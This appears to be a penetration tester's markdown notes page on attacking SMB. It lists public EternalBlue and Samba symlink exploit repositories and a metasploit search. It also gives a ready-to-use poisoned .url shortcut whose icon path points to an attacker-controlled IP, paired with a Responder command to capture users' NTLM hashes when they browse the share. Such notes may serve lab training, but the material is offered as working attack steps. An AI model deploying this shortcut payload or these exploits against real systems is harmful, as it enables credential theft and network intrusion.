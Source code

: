 ## Exploits
### MS17-010 / EternalBlue
- [ ] https://github.com/3ndG4me/AutoBlue-MS17-010
- [ ] https://github.com/worawit/MS17-010
- [ ] https://github.com/helviojunior/MS17-010
- [ ] metasploit modules `search eternal blue`

### Symlink
- [ ] https://github.com/MarkBuffalo/exploits/blob/master/Samba/CVE-2010-0926.c

### SMB .lnk exploit
If you can write an SMB share that a user visits, you can poison a shortcut file as such:
```bash
# contents of @hax.url   
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\192.168.49.194\%USERNAME%.icon
IconIndex=1

# set up responder
# make sure the responder is set to listen SMB (see responder.conf file)
sudo responder -I tun0 -v

# upload the file to the smb server
```

## SMB commands
